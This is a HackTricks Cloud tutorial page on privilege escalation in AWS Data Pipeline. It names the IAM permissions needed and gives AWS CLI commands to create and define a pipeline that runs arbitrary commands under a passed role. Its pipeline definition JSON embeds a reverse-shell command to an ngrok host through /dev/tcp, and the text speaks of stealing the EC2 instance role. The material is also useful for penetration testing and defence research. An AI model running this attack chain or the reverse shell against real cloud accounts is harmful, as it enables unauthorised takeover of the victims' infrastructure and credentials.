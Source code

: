 # AWS - Datapipeline Privesc

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## datapipeline

For more info about datapipeline check:

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

An attacker with the `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition,`and `datapipeline:ActivatePipeline` permissions would be able to escalate privileges by **creating a pipeline and updating it to run an arbitrary AWS CLI command or create other resources**, either once or on an interval with the permissions of the role that was passed in.

```bash
aws datapipeline create-pipeline --name my_pipeline \
    --unique-id unique_string
```

Which will create an empty pipeline. The attacker then needs to **update the definition of the pipeline** to tell it what to do, with a command like this:

```json
{
     "objects": [
     {
         "id" : "CreateDirectory",
         "type" : "ShellCommandActivity",
         "command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
         "runsOn" : {"ref": "instance"}
     },
     {
         "id": "Default",
         "scheduleType": "ondemand",
         "failureAndRerunMode": "CASCADE",
         "name": "Default",
         "role": "assumable_datapipeline",
         "resourceRole": "assumable_datapipeline"
     },
     {
         "id" : "instance",
         "name" : "instance",
         "type" : "Ec2Resource",
         "actionOnTaskFailure" : "terminate",
         "actionOnResourceFailure" : "retryAll",
         "maximumRetries" : "1",
         "instanceType" : "t2.micro",
         "securityGroups" : ["default"],
         "role" : "assumable_datapipeline",
         "resourceRole" : "assumable_ec2_profile_instance"
     }]
}
```

{% hint style="info" %}
Note that the **role** in **line 14, 15 and 27** needs to be a role **assumable by datapipeline.amazonaws.com** and the role in **line 28** needs to be a **role assumable by ec2.amazonaws.com with a EC2 profile instance**.

Moreover, the EC2 instance will only have access to the role assumable by the EC2 instance (so you can only steal that one).
{% endhint %}

```
aws datapipeline put-pipeline-definition --pipeline-id unique_string \
    --pipeline-definition file:///path/to/my/pipeline/definition.json
```

Where the **pipeline definition file contains a directive to run a command** or create resources using the AWS API that could help the attacker gain additional privileges.

**Potential Impact:** Drirect privesc to the ec2 service role specified.

## References

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
